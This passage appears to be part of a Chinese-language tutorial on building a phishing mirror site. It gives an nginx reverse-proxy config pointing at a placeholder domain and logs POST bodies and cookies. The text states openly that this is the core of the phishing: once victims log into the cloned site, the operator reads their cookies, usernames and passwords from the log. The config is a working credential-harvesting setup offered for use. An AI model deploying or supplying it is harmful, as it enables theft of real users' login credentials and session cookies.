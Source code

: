 2、在/www/server/panel/vhost/nginx/目录下新增clone.conf，做如下配置，生成镜像网站

```plain
server
{

    listen 8000;
    server_name 127.0.0.1;
    index index.html index.htm index.php;
    access_log /www/wwwlogs/access.log Clonelog;

 location / {
    proxy_pass http://xxx.xxx.com;
    proxy_buffering off;
    proxy_set_header X-Real-Ip $remote_addr;
    proxy_set_header X-Forwarded-For $proxy_add_x_forwarded_for;
    proxy_set_header Host "xxx.xxx.com";
    proxy_set_header Accept-Encoding "";
    proxy_set_header User-Agent $http_user_agent;
    proxy_set_header referer "http://xxx.xxx.com$request_uri";
    }
}
```

server\_name 监听的域名。

access\_log 设置输出⽇志的路径，最后面是我们配置的日志输出格式 。

proxy\_pass 反向代理的⽹站 。

proxy\_set\_header ⽤于在向反向代理的后端 Web 服务器发起请求时 添加指定的 Header头信息。

access\_log 要和上⾯的nginx.conf 配置中的Clonelog 对应不然⽇志 不会起作⽤。

重点是$request\_body (获取post数据)，$http\_cookie (获取cookie数据)这就是我们钓⻥的核⼼了。当有⼈访问并登陆我们反向代理的⽹站以 后 我们点开⽇志就可以看到他的cookie和post提交的⽤户名和密码了。

[![](assets/1701612327-871ec271cab7b34b2477cc4e456e45f9.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230710174053-dcb5b12a-1f05-1.png)
